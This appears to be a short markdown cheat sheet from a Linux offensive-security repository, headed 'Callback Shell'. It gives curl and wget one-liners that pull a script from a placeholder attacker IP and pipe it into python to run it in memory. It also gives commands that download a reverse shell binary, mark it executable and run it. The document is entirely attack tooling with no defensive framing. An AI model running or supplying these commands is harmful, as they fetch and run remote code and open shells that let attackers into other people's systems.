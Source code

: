 # Linux

## 01 - Unix Shell

### 1.1 - Basics

#### 1.1.1 - Callback Shell

1. Fileless

`$ curl http[s]://<IP>/shell.py | python`

- If the machine doesn't have `curl` installed you can use `wget` to execute it through memory

`$ wget -qO- http[s]://<IP>/shell.py | python`

2. On Disk

Download reverse shell binary and execute it

`$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf`

`$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf`